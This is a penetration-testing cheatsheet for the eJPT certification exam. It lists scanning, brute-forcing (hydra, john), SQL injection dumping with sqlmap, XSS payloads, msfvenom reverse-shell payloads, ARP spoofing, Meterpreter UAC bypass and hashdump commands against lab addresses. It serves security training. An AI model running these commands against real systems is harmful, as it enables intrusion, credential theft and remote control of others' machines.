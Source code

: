 # eJPT-Cheatsheet-Tips
This is a Cheatsheet for eJPT exam. 

### Nmap
nmap -sn 10.10.10.0/24

nmap -sV -p- -iL targets -oN nmap.initial

nmap -A -p- -iL targets -oN nmap.aggressive

nmap -p<port> --script=vuln -v <target-IP>

### fPing
fping -a -g 10.10.10.0/24 > targets 2>/dev/null

### IP Route
**Syntax**
*ip route add <Network-range> via <router-IP> dev <interface>*
  
eg.

ip route add 172.16.50.0/24 via 10.13.37.1 dev tap0

### John

john --wordlist=/root/Tools/wordlists/rockyou.txt --format=raw-md5

unshadow passwd shadow > unshadowed.txt

john --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt

### dirb

dirb http://10.10.10.10/

dirb http://10.10.10.10/dir -u admin:admin

### Netcat
**Listening for reverse shell**
nc -nvlp 1234

**Banner Grabbing**
nc -nv 10.10.10.10 <port>

### SQLMap
#### Check if injection exists

sqlmap -r Post.req

sqlmap -u "http://10.10.10.10/file.php?id=1" -p id

sqlmap -u "http://10.10.10.10/login.php" --data="user=admin&password=admin" 

#### Get database if injection Exists
sqlmap -r login.req --dbs

sqlmap -u "http://10.10.10.10/file.php?id=1" -p id --dbs

sqlmap -u "http://10.10.10.10/login.php" --data="user=admin&password=admin" --dbs

#### Get Tables in a Database

sqlmap -r login.req -D dbname --tables

sqlmap -u "http://10.10.10.10/file.php?id=1" -p id -D dbname --tables

sqlmap -u "http://10.10.10.10/login.php" --data="user=admin&password=admin" -D dbname --tables

#### Get data in a Database tables

sqlmap -r login.req -D dbname -T table_name --dump

sqlmap -u "http://10.10.10.10/file.php?id=1" -p id -D dbname -T table_name --dump

sqlmap -u "http://10.10.10.10/login.php" --data="user=admin&password=admin" -D dbname -T table_name --dump

### Hydra
**SSH Login Bruteforcing**

hydra -v -V -u -L users.txt -P passwords.txt -t 1 -u 10.10.10.10 ssh

hydra -v -V -u -l root -P passwords.txt -t 1 -u 10.10.10.10 ssh

*You can use same for FTP, just replace ssh with ftp*

### XSS

<script>alert(1)</script>

<ScRiPt>alert(1)</ScRiPt>

*This is a great filter bypass cheatsheet*

https://owasp.org/www-community/xss-filter-evasion-cheatsheet

**HTTP POST Form**

hydra http://10.10.10.10/ http-post-form "/login.php:user=^USER^&password=^PASS^:Incorrect credentials" -L /usr/share/ncrack/minimal.usr -P /root/Tools/SecLists/Passwords/Leaked-Databases/rockyou-15.txt -f -V

*You will know which wordlists to use when the time comes*

### msfvenom shells

**JSP Java Meterpreter Reverse TCP**

msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.jsp

**WAR**

msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f war > shell.war

**PHP**

msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php
  
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php

### Metasploit Meterpreter autoroute

run autoroute -s 10.10.10.0/24

### ARPSpoof

echo 1 > /proc/sys/net/ipv4/ip_forward

arpspoof -i <interface> -t <target> -r <host>
  
arpspoof -i tap0 -t 10.100.13.37 -r 10.100.13.36

### SMB Enumeration

**Get shares, users, groups, password policy**

smbclient -L //10.10.10.10/

enum4linux -U -M -S -P -G 10.10.10.10

nmap --script=smb-enum-users,smb-os-discovery,smb-enum-shares,smb-enum-groups,smb-enum-domains 10.10.10.10 -p 135,139,445 -v

nmap -p445 --script=smb-vuln-* 10.10.10.10 -v

**Access Share**

smbclient //10.10.10.10/share_name

### FTP Enumeration

nmap --script=ftp-anon 10.10.10.10 -p21 -v

nmap -A -p21 10.10.10.10 -v

**Login to FTP server**

ftp 10.10.10.10

### Meterpreter

ps__
getuid
getpid
getsystem
ps -U SYSTEM
<--CHECK UAC/Privileges-->
run post/windows/gather/win_privs
<--BYPASS UAC-->
*Background the session first
exploit/windows/local/bypassuac
set session
<--After PrivEsc-->
migrate <pid>
hashdump
  
### Windows Command Line
**To search for a file starting from current directory**
dir /b/s "*.conf*
dir /b/s "*.txt*

**Check routing table**
route print
netstat -r

**Check Users**
net users


